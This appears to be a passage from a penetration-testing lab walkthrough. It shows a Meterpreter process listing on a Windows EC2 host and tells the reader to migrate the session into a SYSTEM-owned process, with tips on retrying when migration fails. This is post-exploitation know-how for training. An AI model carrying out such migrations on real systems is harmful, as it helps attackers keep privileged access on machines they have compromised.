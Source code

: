 ```sh
 948   708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\System32\svchost.exe
 1076  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1176  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 1308  708   spoolsv.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\spoolsv.exe
 1316  776   taskeng.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\taskeng.exe
 1344  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 1404  708   amazon-ssm-agent.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe
 1480  708   LiteAgent.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\XenTools\LiteAgent.exe
 1584  832   WmiPrvSE.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\wbem\wmiprvse.exe
 1620  708   Ec2Config.exe         x64   0        NT AUTHORITY\SYSTEM           C:\Program Files\Amazon\Ec2ConfigService\Ec2Config.exe
 1952  708   svchost.exe           x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\svchost.exe
 2080  708   TrustedInstaller.exe  x64   0        NT AUTHORITY\SYSTEM           C:\Windows\servicing\TrustedInstaller.exe
 2116  832   WmiPrvSE.exe          x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\wbem\wmiprvse.exe
 2184  708   mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
 2296  708   mscorsvw.exe          x64   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework64\v4.0.30319\mscorsvw.exe
 2344  2184  mscorsvw.exe          x86   0        NT AUTHORITY\SYSTEM           C:\Windows\Microsoft.NET\Framework\v4.0.30319\mscorsvw.exe
 2380  708   svchost.exe           x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\svchost.exe
 2412  708   sppsvc.exe            x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Windows\system32\sppsvc.exe
 2552  708   svchost.exe           x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2600  708   vds.exe               x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\vds.exe
 2736  708   SearchIndexer.exe     x64   0        NT AUTHORITY\SYSTEM           C:\Windows\system32\SearchIndexer.exe

meterpreter > 
```

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 
